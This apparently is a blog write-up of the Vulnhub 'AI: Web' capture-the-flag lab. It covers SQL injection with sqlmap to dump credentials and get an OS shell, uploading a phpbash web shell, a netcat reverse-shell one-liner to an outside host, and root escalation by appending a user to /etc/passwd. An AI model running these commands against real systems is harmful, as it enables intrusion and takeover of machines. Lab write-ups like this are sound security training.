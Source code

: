 ```yaml
---
layout: post
title: Vulnhub - AI:Web writeup
date: 2019-08-26 11:00 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/ai-web-1,353/">AI: Web</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/@arif_xpress">  Mohammad Ariful Islam</a></h4>

## Nmap

![](images/ai/nmap.png)

There is only single port open and that too have some hidden directories. Let's see what else we can find from HTTP service.

***

## HTTP

When we visit the website we get a message `Not even Google search my contents!`
![](images/ai/website.png)

That message is reference to `robots.txt` because that is the file use to allow or disallow google from scraping.

In `robots.txt` we have 2 entries `/m3diNf0/`, `/se3reTdir777/uploads/`.

![](images/ai/robots.png)

But When I tried visiting `/m3diNf0/` or `/se3reTdir777/uploads/` I got `403` Forbidden error, meaning I cannot view the content of those page.
I ran dirsearch on `/m3diNf0/` and found `info.php`

![](images/ai/dirsearch.png)

If we open that `info.php` it contains simple information about the system.
But when I opened the `http://192.168.184.135/se3reTdir777/` I got a very basic form asking me about `UserID`.

![](images/ai/form.png)

I started to submit id as `1,2,3...`

![](images/ai/id1.png)

![](images/ai/id2.png)

![](images/ai/id3.png)

When I submitted UserId as `4` I got error.

![](images/ai/noid.png)

***

## sqlmap

I tested this field for SQLi with `sqlmap`. I captured the requests and saved it in a file named `sql.txt` and then passed that file to sqlmap.

* `➜ sqlmap -r /home/mzfr/sql.txt --dbs`

![](images/ai/dbs.png)

* `➜ sqlmap -r /home/mzfr/sql.txt -D aiweb1 --tables`

![](images/ai/tables.png)

* `➜ sqlmap -r /home/mzfr/sql.txt -D aiweb1 --dump`

![](images/ai/hash.png)

Since all the hashes are just base64 encoded so I decoded them and only one of them was legit.

![](images/ai/password.png)

`aiweb1pwn:MyEvilPass_f908sdaf9_sadfasf0sa`

but since there is no service to login we can't use this.

I found out that we can use `--os-shell` with sqlmap to get the shell.

I ran
`sqlmap -r /home/mzfr/sql.txt -D aiweb1 --os-shell` and then selected following options:

![](images/ai/options.png)

I figured out that custom path from the `info.php` we found in the starting.

![](images/ai/right-path.png)

And with that I got the shell.

![](images/ai/os-shell.png)

From this I uploaded a `phpbash` shell using `wget`

![](images/ai/wget.png)

Now we can visit `se3reTdir777/uploads/phpbash.php` and we'll have a phpbash shell.

![](images/ai/phpbash.png)

So Now from this shell I ran

```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.184.1 4444 >/tmp/f
```

![](images/ai/rev-shell.png)

***

## Privilege escalation

I downloaded the enumeration script and ran it and I found out that there are two users `aiweb1` and `aiweb1pwn`

![](images/ai/users.png)

I ran `find / -user www-data -type f 2>/dev/null` and found that `www-data` can edit `/etc/passwd` which is nice.

I ran `echo "toor:sXuCKi7k3Xh/s:0:0::/root:/bin/bash" >> /etc/passwd` this will add a new user named `toor` with  password `toor` having `root` access.

Then I `su` to toor and got the root-shell.

![](images/ai/root-shell.png)

now get the flag from the root directory.

![](images/ai/root.png)

***

This was an awesome machine with something new for me. I didn't knew that we can use sqlmap for getting a shell.

Thanks to [@arif_xpress](https://twitter.com/@arif_xpress) for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.

